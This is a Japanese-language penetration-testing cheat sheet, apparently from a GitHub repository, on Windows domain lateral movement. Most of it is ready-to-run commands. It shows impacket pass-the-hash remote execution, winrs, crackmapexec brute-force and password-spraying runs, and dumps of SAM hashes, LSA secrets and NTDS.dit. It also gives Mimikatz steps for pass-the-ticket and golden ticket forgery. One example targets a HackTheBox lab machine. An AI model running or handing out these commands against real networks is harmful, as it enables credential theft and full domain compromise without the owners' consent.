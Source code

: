 ## 目次

1. [psexec - smbexec - wmiexec - atexec](#psexec---smbexec---wmiexec---atexec)
    - [psexec](#psexec)
    - [smbexec](#smbexec)
    - [wmiexec](#wmiexec)
    - [atexec](#atexec)
2. [winrs](#winrs)
3. [crackmapexec](#crackmapexec)
    - [基本コマンド](#crackmapexec-基本コマンド)
    - [モジュール](#crackmapexec-モジュール)
4. [Pass the ticket](#pass-the-ticket)
5. [Golden Ticket](#golden-ticket)

## psexec - smbexec - wmiexec - atexec

ここでは、主に資格情報やハッシュを用いてリモートでコマンドを実行するためのツールについて説明します。

### psexec

`psexec`は、管理者権限を持つユーザーがリモートシステムでコマンドを実行できるツールです。

```bash
psexec.py <domain>/<user>:<password1>@<IP>
```

ユーザーはリモートシステムの管理共有（例：C$）への書き込みアクセス権を持っている必要があり、その後、セッションを取得できます。

#### ハッシュ使用例

パスワードの代わりにNTLMハッシュを使用する場合、以下のようにコマンドを実行します。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

他にも、以下のように実行できます。

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@jeeves.htb cmd.exe
```

### smbexec

`smbexec`は、`psexec`に似ていますが、リモートでコマンドを実行する際にSMB（Server Message Block）プロトコルを使用します。

```bash
smbexec.py <domain>/<user>:<password1>@<IP>
```

また、以下のようにハッシュを使用することもできます。

```bash
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### wmiexec

`wmiexec`は、Windows Management Instrumentation（WMI）を使用してリモートシステムでコマンドを実行するツールです。

```bash
wmiexec.py <domain>/<user>:<password1>@<IP>
```

ハッシュを使用する場合は、以下のように実行します。

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### atexec

`atexec`は、Windowsのタスクスケジューラを利用してコマンドをリモート実行するツールです。ハッシュを使用して実行する場合は、以下のコマンドを使います。

```bash
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

---

## winrs

`winrs`は、Windows Remote Shellを使用してリモートシステムでコマンドを実行するためのツールです。以下のコマンドで、ユーザーがシステムにアクセス可能か確認し、その後リバースシェルを実行できます。

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
```

このコマンドは、Windowsセッション内で実行します。

---

## crackmapexec

`crackmapexec`は、ネットワーク上の複数のホストに対して様々な攻撃を自動化するためのツールです。

### crackmapexec 基本コマンド

以下は、`crackmapexec`の基本的な使用例です。

```bash
crackmapexec smb jeeves.htb -u Administrator -p passwords
```

`crackmapexec`は、`smb`, `winrm`, `mssql`, `ldap`, `ftp`, `ssh`, `rdp`などのサービスに対して利用可能です。次に、SMBサービスに対してブルートフォース攻撃を行うコマンド例を示します。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # "Pwned"と表示されます
```

以下は、SMBに対するパスワードスプレー攻撃の例です。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
```

その他の有用なコマンド例：

```bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares # 共有フォルダのリストを表示
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks # ディスク情報の取得
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users # DCのユーザー情報を取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions # アクティブセッションの確認
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol # パスワードポリシーの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam # SAMハッシュの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa # LSAシークレットのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds # NTDS.ditファイルのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} # 特定のグループに属するユーザーの列挙
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' # コマンドの実行, "-x"はcmd, "-X"はpowershellコマンド用
```

### crackmapexec モジュール

`crackmapexec`には、様々なモジュールがあります。以下は、モジュールに関するコマンド例です。

```bash
crackmapexec smb -L # モジュールのリストを表示
crackmapexec smb -M mimikatx --options # モジュールの必要なオプションを表示
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz # デフォルトコマンドの実行
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' # 特定のコマンドを実行
```

---

## Pass the ticket

`Pass the ticket`攻撃は、Mimikatzを用いてKerberosチケットを取得し、それを他のシステムで使用する攻撃です。

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

---

## Golden Ticket

`Golden Ticket`は、ドメインコントローラ上の`krbtgt`アカウントの秘密情報を使用して、任意のユーザーとして認証を行う攻撃です。

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:
```
